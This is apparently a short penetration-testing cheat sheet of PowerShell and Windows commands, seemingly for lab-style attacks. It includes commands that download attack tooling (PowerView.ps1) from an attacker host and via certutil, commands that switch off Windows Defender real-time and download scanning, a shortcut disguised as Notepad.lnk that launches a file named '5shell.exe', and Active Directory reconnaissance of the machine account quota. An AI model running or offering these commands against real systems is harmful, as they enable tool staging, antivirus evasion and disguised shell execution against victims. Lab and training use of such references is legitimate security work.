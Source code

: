 Download Files
```Powershell
Invoke-WebRequest -Uri http://10.10.14.176:8000/PowerView.ps1 -OutFile PowerView.ps1

curl -o example.txt http://example.com/file.txt

certutil.exe -urlcache -split -f http://<ip>/file file_save
```

Get Processes
```powershell
Get-Process | Format-Table -Property Name, Id, CPU, WorkingSet -AutoSize

Get-Process -Name "notepad"
```

Disable AV
```powershell
# Disable Windows Defender real time monitoring
Set-MpPreference -DisableRealtimeMonitoring $true

# Disable Windows Defender scanning for all files downloaded
Set-MpPreference -DisableIOAVProtection $true
```

List Network Connections
```powershell
netstat -aon

arp -a
```

Shortcuts
```Powershell
$targetPath = "C:\xampp\htdocs\5shell.exe"
$shortcutPath = "C:\Common Applications\Notepad.lnk"
$shell = New-Object -ComObject WScript.Shell
$shortcut = $shell.CreateShortcut($shortcutPath)
$shortcut.TargetPath = $targetPath
$shortcut.Save()
```

Active Directory
```
Get-ADDomain

Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DSMachineAccountQuota
```